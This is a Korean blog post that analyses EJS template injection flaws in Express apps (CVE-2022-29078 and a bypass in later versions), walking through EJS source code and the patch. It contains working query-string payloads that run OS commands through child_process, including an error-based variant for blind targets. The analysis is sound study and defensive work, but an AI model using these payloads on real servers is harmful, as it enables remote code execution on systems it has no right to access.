




EJS 3.1.x SSTI 취약점 분석
EJS 렌더링 과정에서 SSTI → RCE로 이어지는 흐름을 정리합니다.
들어가며
2022년에 공개된 EJS SSTI 취약점을 분석해보았다.
그동안 SSTI 취약점은 주로 Python의 Flask 환경에서 접했었는데,
Express의 EJS에서도 비슷한 형태의 SSTI가 발생할 수 있다는 점이 신기했다.
그래서 이번 글에서는 이 취약점이 왜 발생하는지 차근차근 정리해보았다!
글을 시작하기에 앞서, 먼저 Express와 EJS를 간단하게 정리해보면 다음과 같다.
- Express: Node.js 기반의 웹 애플리케이션 프레임워크로, 라우팅과 요청/응답 처리를 담당한다.
- EJS: Server-Side Template Engine으로, HTML 내부에 JavaScript를 삽입해 동적인 페이지를 생성한다.
Python과 비교했을 때, Express는 Flask에, EJS는 Jinja2에 대응하는 개념으로 이해할 수 있다.
EJS version ≤ 3.1.6 SSTI (CVE-2022-29078) 요약
CVE-2022-29078은 EJS 3.1.6 이하 버전에서 발생하는 SSTI 취약점이다.
아래 예시는 GitHub 이슈에 공개된 코드이다.
const express = require('express')
const app = express()
const port = 3000
app.set('view engine', 'ejs');
app.get('/page', (req,res) => {
res.render('page', req.query);
})
app.listen(port, () => {
console.log("Example app listening on port ${port}")
})
<!DOCTYPE html>
<html lang="ko">
<head>
<meta charset="UTF-8">
<title>Page</title>
</head>
<body>
<h1>Welcome ! <%= name %></h1>
</body>
</html>
여기서 문제가 되는 부분은 다음 코드이다.
res.render('page', req.query);
먼저 req.query가 무엇인지 간단하게 짚고 넘어가자.
req.queryreq.query는 URL의 쿼리스트링을 객체로 파싱한 값이다.
예를 들어 /page?name=yunseul&age=22 경로로 요청을 보내면,
Express 내부에서 req.query는 다음과 같은 형태가 된다.
req.query = {
name: "yunseul",
age: "22"
}
즉, req.query에 들어가는 값은 전부 사용자 입력으로 구성된다.
위 코드처럼 req.query를 그대로 res.render()함수에 전달하면 SSTI 취약점이 발생할 수 있다.
PoC는 다음과 같다.
/page?name=x&settings[view%20options][outputFunctionName]=x;__append(process.mainModule.require('child_process').execSync('ls'));//
위 payload를 서버에 전송하면 RCE가 가능하다. (__append는 EJS 내부 함수)

실행 결과
블라인드 환경이라면 일부러 오류를 발생시킨 뒤 명령 실행 결과를 오류 메시지 안에 끼워 넣음으로써 확인할 수 있다.
/page?name=test&settings[view%20options][outputFunctionName]=x;throw new Error(process.mainModule.require('child_process').execSync('ls').toString());//

실행 결과
CVE-2022-29078의 핵심 원인은 EJS의 renderFile()함수가 data.settings[’view options’]값을
별도의 검증 없이 opts에 복사한다는 점이다.
사용자 입력은 내부적으로 req.query → data → settings → view options → opts 경로로 흘러간다.
여기서 opts는 다양한 속성을 가지고 있는데, 그 중 opts.outputFunctionName값은 템플릿이 컴파일되는 과정에서
그대로 JavaScript 코드에 삽입된다. 그 결과 사용자가 원하는 JavaScript 함수를 실행시킬 수 있다.
이제 이 과정을 더 자세하게 살펴보자!
취약점 상세 분석 - RCE가 발생하는 이유
res.render()함수 실행 과정
res.render() 함수가 실행되면 내부적으로 다음과 같은 흐름을 거친다.
res.render() → app.render() → tryRender() → view.render() → this.engine() = ejs.__express() = exports.renderFile() → tryHandleCache() → resolve() or cb()
이 과정은 GitHub 소스 코드에서 확인할 수 있다.
이 중에서 이번 취약점과 직접적으로 연결되는 부분은 renderFile()함수이다. 먼저 구현 코드를 살펴보자.
exports.renderFile = function () {
var args = Array.prototype.slice.call(arguments);
var filename = args.shift();
var cb;
var opts = {filename: filename};
var data;
var viewOpts;
// Do we have a callback?
if (typeof arguments[arguments.length - 1] == 'function') {
cb = args.pop();
}
// Do we have data/opts?
if (args.length) {
// Should always have data obj
data = args.shift();
// Normal passed opts (data obj + opts obj)
if (args.length) {
// Use shallowCopy so we don't pollute passed in opts obj with new vals
utils.shallowCopy(opts, args.pop());
}
// Special casing for Express (settings + opts-in-data)
else {
// Express 3 and 4
if (data.settings) {
// Pull a few things from known locations
if (data.settings.views) {
opts.views = data.settings.views;
}
if (data.settings['view cache']) {
opts.cache = true;
}
// Undocumented after Express 2, but still usable, esp. for
// items that are unsafe to be passed along with data, like `root`
viewOpts = data.settings['view options'];
if (viewOpts) {
utils.shallowCopy(opts, viewOpts);
}
}
// Express 2 and lower, values set in app.locals, or people who just
// want to pass options in their data. NOTE: These values will override
// anything previously set in settings or settings['view options']
utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
}
opts.filename = filename;
}
else {
data = {};
}
return tryHandleCache(opts, data, cb);
};
여기서 opts는 EJS가 템플릿을 렌더링할 때 참고하는 설정 객체이다.
이 객체에 어떤 값이 들어가느냐에 따라
최종적으로 생성되는 HTML 결과도 달라진다.
예를 들어 res.render(’page’, req.query)와 같이 호출될 경우, req.query는 renderFile() 함수 내부에서 data 객체로 저장되어 다음 함수에 전달된다.
그리고 코드의 else 분기를 보면 data[settings][view options]값이 존재할 경우viewOpts값을 opts에 복사하는 것을 확인할 수 있다.
즉, 사용자 입력은 data → settings → view options → opts 경로를 따라
EJS 내부 설정 객체(opts)에 전달될 수 있다.
쉽게 말하면 사용자가 원하는 값을 HTML 안에 넣을 수 있는 것이다.
템플릿에 사용자의 입력이 삽입되는 과정
Template 함수 코드를 보면 opts가 가질 수 있는 여러 속성들을 확인할 수 있다.
function Template(text, opts) {
opts = opts || {};
var options = {};
this.templateText = text;
/** @type {string | null} */
this.mode = null;
this.truncate = false;
this.currentLine = 1;
this.source = '';
options.client = opts.client || false;
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
options.compileDebug = opts.compileDebug !== false;
options.debug = !!opts.debug;
options.filename = opts.filename;
options.openDelimiter = opts.openDelimiter || exports.openDelimiter || _DEFAULT_OPEN_DELIMITER;
options.closeDelimiter = opts.closeDelimiter || exports.closeDelimiter || _DEFAULT_CLOSE_DELIMITER;
options.delimiter = opts.delimiter || exports.delimiter || _DEFAULT_DELIMITER;
options.strict = opts.strict || false;
options.context = opts.context;
options.cache = opts.cache || false;
options.rmWhitespace = opts.rmWhitespace;
options.root = opts.root;
options.includer = opts.includer;
options.outputFunctionName = opts.outputFunctionName;
options.localsName = opts.localsName || exports.localsName || _DEFAULT_LOCALS_NAME;
options.views = opts.views;
options.async = opts.async;
options.destructuredLocals = opts.destructuredLocals;
options.legacyInclude = typeof opts.legacyInclude != 'undefined' ? !!opts.legacyInclude : true;
...
}
이 함수의 구현 코드에서 특히 중요한 부분은 다음 코드이다.
if (!this.source) {
this.generateSource();
prepended +=
' var __output = "";\n' +
' function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
prepended += ' var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
...
this.source = prepended + this.source + appended;
src = this.source;
...
try {
if (opts.async) {
// Have to use generated function for this, since in envs without support,
// it breaks in parsing
try {
ctor = (new Function('return (async function(){}).constructor;'))();
}
catch(e) {
if (e instanceof SyntaxError) {
throw new Error('This environment does not support async/await');
}
else {
throw e;
}
}
}
else {
ctor = Function;
}
fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
...
여기서 prepended는 컴파일된 템플릿 함수의 맨 앞 부분에 삽입되는 JavaScript 코드 문자열이다.
즉, EJS는 단순히 문자열을 치환해서 HTML을 만드는 것이 아니라 템플릿을 JavaScript 함수로 변환한 뒤new Function()으로 실행해 최종 HTML 문자열을 생성한다.
다시 사용자 입력이 전달되는 부분으로 돌아가보자.
# 코드 1
------------------------------------------------
viewOpts = data.settings['view options'];
if (viewOpts) {
utils.shallowCopy(opts, viewOpts);
}
# 코드 2
------------------------------------------------
exports.shallowCopy = function (to, from) {
from = from || {};
for (var p in from) {
to[p] = from[p];
}
return to;
};
# 코드 3
------------------------------------------------
if (!this.source) {
this.generateSource();
prepended +=
' var __output = "";\n' +
' function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
prepended += ' var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
data에 req.query값이 그대로 저장되기 때문에,
URL 쿼리를 ?settings[’view options’][outputFunctionName]=x와 같은 형식으로 구성하면 data.settings[’view options’]값이 생성된다.
data = {
settings: {
"view options": {
outputFunctionName: "x"
}
}
}
그 결과 renderFile() 함수 내부에서 if (viewOpts)조건이 참이 되고outputFunctionName: “x” 값이 opts에 복사된다.
이후 if (opts.outputFunctionName)조건도 참이 되면서 prepended에 var x = __append;코드가 삽입된다.
즉, 사용자가 지정한 값이 그대로 JavaScript 코드 내부에 들어가게 되는 것이다.
예를 들어 payload를 아래와 같이 작성하면,
?settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('ls');//
prepended에는 다음과 같은 값이 들어가게 된다.
prepended = var x;process.mainModule.require(’child_process’).execSync(’ls’);//
이 문자열은 이후 new Function()에 의해 함수 본문으로 컴파일되고 실제로 실행된다.
process.mainModule: 현재 실행 중인 Node.js 애플리케이션require(’child_process’): child_process 모듈을 불러오는 코드. child_process는 Node.js에서 외부 프로세스를 실행할 수 있게 해주는 모듈이다.
→ 두 코드를 합치면 현재 Node.js 서버 권한으로 OS 명령을 실행하는 구문이 된다.
이 취약점은 다음과 같은 흐름으로 RCE로 이어진다.
1. 사용자 입력이 템플릿 옵션을 오염시키고
2. 컴파일 단계에서 JavaScript 코드로 삽입되며
3. 해당 템플릿이 new Function() 을 통해 실행되면서
4. RCE로 이어진다.
RCE 결과
EJS version 3.1.7 에서의 패치
패치 커밋을 보면 JavaScript 식별자를 검증하기 위한 정규식이 추가된 것을 확인할 수 있다.

opts.outputFunctionName, opts.localsName, opts.destructedLocals속성에
정규식을 기반으로 한 JS 식별자 검증 코드가 추가되었다.
EJS version ≥ 3.1.7 에서의 SSTI
문제는 JavaScript 식별자 검증이 적용된 속성들 외에도opts에는 여전히 JavaScript를 삽입할 수 있는 옵션들이 존재했다는 것이다.
대표적인 예시가 opts.escapeFunction이다.
소스 코드를 보면, opts.client값이 존재할 경우 escapeFunction값을 src에 함께 저장하고 있다.
options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;
if (opts.client) {
src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
if (opts.compileDebug) {
src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
}
}
이 특성을 이용하면 해당 버전에서도 SSTI를 발생시킬 수 있다.
/page?name=test&settings[view options][client]=true&settings[view options][escapeFunction]=JSON.stringify;throw new Error(process.mainModule.require('child_process').execSync('ls').toString())//

EJS 3.1.9 버전의 SSTI 취약점, CVE-2023-29827
EJS 3.1.9 버전에서는 사용자 입력에 의해 closeDelimiter설정 값이 오염될 경우 RCE가 가능하다는 보고가 있었다.
다만, EJS 측에서는 이를 라이브러리 취약점이라기보다는 unsafe usage에 해당된다고 보고,
최종적으로 DISPUTED 처리했다.
해당 취약점은 나중에 정리해서 작성해보도록 하겠다 ... ㅎㅎ
결론
EJS SSTI 취약점의 근본적인 원인은 아래와 같은 unsafe usage이다.
res.render('page', req.query);
EJS 템플릿을 사용한다면 템플릿에 사용자 입력 객체 전체를 그대로 전달하지 말고,
필요한 값만 명시적으로 꺼내어 전달하는 방식으로 사용하자!